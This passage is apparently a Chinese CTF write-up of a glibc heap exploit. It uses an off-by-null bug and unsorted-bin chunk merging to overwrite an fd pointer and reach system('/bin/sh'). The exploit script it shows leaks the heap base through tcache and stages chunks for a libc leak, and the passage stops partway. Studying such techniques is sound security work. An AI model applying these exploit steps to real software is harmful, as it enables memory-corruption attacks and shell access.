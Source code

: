 ### 思路

利用 off by null 在 unsorted bin 中实现 chunk 的合并，然后去修改 fd 指针，打 system('/bin/sh')

### 详细流程

先在 tcachebins 中泄露堆地址

```plain
add(0,0xf8,'aaaa')
add(1,0xf8,'aaaa')
delete(1)
delete(0)

add(1,0xf8,'')
show(1)
r(9)
heap_base=u64(p.recv(6).ljust(8,'\x00'))-0x30a
leak('heap_base ',heap_base)
```

[![](assets/1701606615-cf51570577fefa0c19e9768d2c95e46c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115212929-0109f9a4-83bb-1.png)  
然后重置一下 idx，然后布置一下 chunk(填满 tcachebins，然后留出两个 chunk 用来合并，最后 free 的 chunk 用来泄露 libc)

```plain
delete(1)
for i in range(11):
    add(i,0xf8,'')

for i in range(7):
    delete(i)

delete(9)
```
